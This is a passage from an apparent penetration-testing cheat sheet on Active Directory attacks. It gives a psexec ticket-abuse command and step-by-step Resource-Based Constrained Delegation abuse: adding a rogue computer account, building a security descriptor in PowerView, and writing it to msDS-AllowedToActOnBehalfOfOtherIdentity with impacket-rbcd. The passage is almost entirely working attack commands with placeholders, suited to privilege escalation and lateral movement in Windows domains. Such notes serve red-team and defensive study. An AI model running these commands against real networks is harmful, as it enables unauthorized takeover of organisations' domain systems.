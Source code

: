 2. abuse ticket
* psexec
```sh
impacket-psexec <domain>/Administrator@<host> -k -no-pass -dc-ip <dc> -target-ip <target>
```


### Resource-Based Constrained Delegation
* Condition
- `msDS-AllowedToActOnBehalfOfOtherIdentity` is writable. (e.g. `GenericWrite` on machine object)
- host with SPN is compromised, or a computer can be added

* Execution
1. add a computer account
```powershell (PowerMad)
New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'password' -AsPlainText -Force)
```

```bash
impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'password' <domain>/<user> -hashes :<hash> -dc-ip <dc>
```

* kerberos
```bash
impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'password' <domain>/<user> -dc-ip <dc ip> -k -no-pass -dc-host <dc host>
```

2. get security descriptor
```powershell (PowerView)
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
```

```bash
skip
```

3. write security descriptor to `msDS-AllowedToActOnBehalfOfOtherIdentity` of target host
```powershell (PowerView)
Get-DomainComputer -Identity <host> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

```bash
impacket-rbcd -action write -delegate-to 'TARGET$' -delegate-from 'myComputer$' <domain>/'MACHINE$' -hashes :<hash> -dc-ip <dc>
```

* kerberos
```bash
vim /etc/hosts
172.16.1.1 DC01

impacket-rbcd -action write -delegate-to 'TARGET$' -delegate-from 'myComputer$' <domain>/<user>  -k -no-pass -dc-ip <dc>
```
